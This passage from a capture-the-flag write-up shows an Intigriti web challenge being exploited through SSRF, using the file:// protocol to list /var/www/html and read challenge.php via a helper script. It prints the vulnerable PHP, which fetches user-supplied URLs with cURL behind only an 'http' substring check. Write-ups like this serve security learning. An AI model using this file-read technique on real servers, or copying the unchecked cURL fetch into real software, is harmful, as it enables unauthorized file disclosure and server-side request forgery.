 Nice! What now?

Since we can read arbitrary files, why not go read the `/challenge.php` source code?

Usually, the web root directory of the application is in `/var/www/html`. If we're not sure, we can leverage an interesting quirk in the `file://` protocol!

If the file path is a **directory**, it'll list out the directory's files! Although this behavior is not defined in [RFC 8089](https://datatracker.ietf.org/doc/html/rfc8089), it's a common practice that to do that when the file path is a directory.

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|14:14:41(HKT)]
└> python3 read_files.py '/var/www/html/'
[+] File content:
uploads
partials
upload_shoppix_images.php
index.php
challenge.php
public
```

Now that we can list out all the files in the `/var/www/html` directory, let's read file `challenge.php`!

```shell
┌[siunam@~/ctf/Intigriti-Challenge/1025]-[2025/10/08|14:29:22(HKT)]
└> python3 read_files.py --output challenge.php '/var/www/html/challenge.php'
[+] The file's content has been written to path challenge.php
```

`challenge.php`:

```php
if (isset($_GET['url'])) {
    $url = $_GET['url'];

    if (stripos($url, 'http') === false) {
        die("<p style='color:#ff5252'>Invalid URL: must include 'http'</p>");
    }
    [...]
    $ch = curl_init($url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $response = curl_exec($ch);
    
    if ($response === false) {
        echo "<p style='color:#ff5252'>cURL Error: " . curl_error($ch) . "</p>";
    } else {
        echo "<h3>Fetched content:</h3>";
        echo "<pre>" . htmlspecialchars($response) . "</pre>";
    }
}
```

Turns out our theory is correct! The import feature is using cURL library to fetch remote resources, and then display the response in the `<pre>` element.
